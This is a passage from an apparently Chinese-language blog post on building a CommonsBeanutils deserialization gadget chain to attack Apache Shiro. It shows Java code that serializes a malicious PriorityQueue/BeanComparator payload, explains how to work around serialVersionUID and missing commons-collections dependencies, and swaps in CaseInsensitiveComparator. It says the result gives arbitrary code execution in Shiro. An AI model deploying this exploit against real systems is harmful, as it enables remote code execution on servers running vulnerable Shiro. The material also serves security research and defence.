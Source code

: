 ```java
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] payload = getPayload();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(payload));
        ois.readObject();
    }
}
```


## 在shiro下利用的坑点
1. Shiro中自带的commons-beanutils与我们本地的版本不一致，就可能在反序列化时出现serialVersionUID对应不上的问题
2. commons-beanutils本来依赖于commons-collections，但是在Shiro中，它的commons-beanutils虽然包含了一部分commons-collections的类，但却不全。这也导致，正常使用Shiro的时候不需要依赖于commons-collections，但反序列化利用的时候需要依赖于commons-collections。

### 解决第一个坑点
解决第一个坑点很简单，将依赖版本替换就可以，还有一种方式是通过自定义ClassLoader来做隔离

### 解决第二个坑点
我们来看看我们这条链究竟是哪里用到了commons-collections的依赖:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211116190140.png)
当我们没有提供comparator时，他会使用commons-collections的Comparator。为了解决这个问题，我们需要寻找一个新的Comparator，它要满足以下条件:
-   实现`java.util.Comparator`接口
-   实现`java.io.Serializable`接口
-   Java、shiro或commons-beanutils自带，且兼容性强

结合参考文章，我们找到了CaseInsensitiveComparator这个类，同时我们可以很简单地通过`String.CASE_INSENSITIVE_ORDER`拿到上下文中的`CaseInsensitiveComparator`对象:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211116190403.png)
将链稍作修改，修改BeanComparator的实例化参数，即可成功在shiro中执行任意代码:
```java
package top.longlone;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
```